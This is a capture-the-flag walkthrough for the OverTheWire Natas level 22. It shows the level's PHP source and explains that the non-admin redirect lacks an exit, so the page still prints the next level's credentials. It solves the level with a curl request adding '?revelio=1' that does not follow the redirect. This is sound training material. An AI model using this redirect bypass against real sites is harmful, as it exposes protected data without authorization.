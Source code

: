 # Natas 22 -> 23

```
http://natas22.natas.labs.overthewire.org
```

```
Username: natas22
```

An empty page with the source code

```php
<? 
session_start(); 

if(array_key_exists("revelio", $_GET)) { 
    // only admins can reveal the password 
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) { 
    header("Location: /"); 
    } 
} 
?> 


<html> 
<head> 
<!-- This stuff in the header has nothing to do with the level --> 
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" /> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" /> 
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script> 
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script> 
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script> 
<script>var wechallinfo = { "level": "natas22", "pass": "<censored>" };</script></head> 
<body> 
<h1>natas22</h1> 
<div id="content"> 

<? 
    if(array_key_exists("revelio", $_GET)) { 
    print "You are an admin. The credentials for the next level are:<br>"; 
    print "<pre>Username: natas23\n"; 
    print "Password: <censored></pre>"; 
    }
?>
```

If we pass `$_GET['revelio']` and we're not logged it'll redirect us to `/`. Otherwise, it'll show the credentials.
How do we do to avoid being redirected? We use `curl` :-)

```bash
$ curl --user natas22:${NATAS22_PASSWD} http://natas22.natas.labs.overthewire.org/?revelio=1
```

* php
